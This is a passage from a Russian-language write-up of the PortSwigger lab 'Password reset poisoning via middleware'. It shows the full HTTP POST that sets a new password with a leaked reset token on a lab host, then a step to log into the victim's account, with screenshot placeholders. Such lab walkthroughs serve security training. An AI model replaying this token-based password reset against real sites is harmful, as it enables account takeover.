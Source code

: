 ![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Password_reset_poisoning_via_middleware/4.png){: height="200" .align-center}

3. Отправить запрос на изменение пароля с ликнутым токеном `8apy74zrh20eag5za6t437ci7fk0h2js`:

```http
POST /forgot-password?temp-forgot-password-token=8apy74zrh20eag5za6t437ci7fk0h2js HTTP/2
Host: 0ad6006c036f335d80bd12c1003500dd.web-security-academy.net
Cookie: session=9AUyI5SFoyAibYfN1uEZ33qBzWoBMd4Q
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad6006c036f335d80bd12c1003500dd.web-security-academy.net/forgot-password?temp-forgot-password-token=l3esv027he10meqw3bm2qeonhifvuvqj
Content-Type: application/x-www-form-urlencoded
Content-Length: 93
Origin: https://0ad6006c036f335d80bd12c1003500dd.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

temp-forgot-password-token=8apy74zrh20eag5za6t437ci7fk0h2js&new-password-1=1&new-password-2=1
```

4. Залогиниться в аккаунт:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Password_reset_poisoning_via_middleware/5.png){: height="200" .align-center}
